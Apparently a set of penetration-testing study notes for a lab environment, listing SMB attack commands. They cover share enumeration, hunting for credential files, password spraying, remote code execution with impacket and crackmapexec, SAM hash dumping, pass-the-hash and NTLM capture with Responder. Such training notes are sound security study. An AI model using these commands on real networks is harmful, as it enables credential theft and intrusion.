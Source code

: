     ```xml
    PS C:\htb> $username = 'plaintext'
    PS C:\htb> $password = 'Password123'
    PS C:\htb> $secpassword = ConvertTo-SecureString $password -AsPlainText -Force
    PS C:\htb> $cred = New-Object System.Management.Automation.PSCredential $username, $secpassword
    PS C:\htb> New-PSDrive -Name "N" -Root "\\192.168.220.129\Finance" -PSProvider "FileSystem" -Credential $cred
    ```
    
    - N:
    - (Get-ChildItem -File -Recurse | Measure-Object).Count
    - Get-ChildItem -Recurse -Path N:\ -Include *cred* -File
    - Get-ChildItem -Recurse -Path N:\ -Include *cred* -File
- Linux mount
    - sudo mkdir /mnt/Finance
    - sudo mount -t cifs -o username=plaintext,password=Password123,domain=. [//192.168.220.129/Finance](https://192.168.220.129/Finance) /mnt/Finance
    - mount -t cifs [//192.168.220.129/Finance](https://192.168.220.129/Finance) /mnt/Finance -o credentials=/path/credentialfile
    
    ```xml
    username=plaintext
    password=Password123
    domain=.
    ```
    
    - `find /mnt/Finance/ -name *cred*`
    - grep -rn /mnt/Finance/ -ie cred
- Enumeration
    - sudo nmap 10.129.14.128 -sV -sC -p139,445
- File Share
    - smbclient -N -L [//10.129.14.128](https://10.129.14.128/)
- Enumerate network shares
    - smbmap -H 10.129.14.128
    - Using smbmap with the -r or -R (recursive) option, one can browse the directories:
    - smbmap -H 10.129.14.128 -r notes
    - smbmap -H 10.129.14.128 --download "notes\note.txt”
    - smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt”
- Bruteforce
    - crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!' --local-auth
    - --continue-on-success
- Remote Code Execution (RCE)
    - impacket-psexec -h
    - impacket-smbexec
    - impacket-atexec
    - crackmapexec
    - impacket-psexec administrator:'Password123!'@10.10.110.17
    - crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec
    - Note: If the--exec-method is not defined, CrackMapExec will try to execute the atexec method, if it fails you can try to specify the --exec-method smbexec.
    - Enumerating Logged-on Users
        - crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users
    - Extract Hashes from SAM Database
        - crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam
    - Pass-the-Hash (PtH)
        - crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE
- Forced Authentication Attacks
    - responder -I <interface name>
    - sudo responder -I ens33
    - usr/share/responder/logs/
    - hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.
    - If we cannot crack the hash, we can potentially relay the captured hash to another machine using impacket-ntlmrelayx or Responder [MultiRelay.py](http://multirelay.py/). Let us see an example using impacket-ntlmrelayx.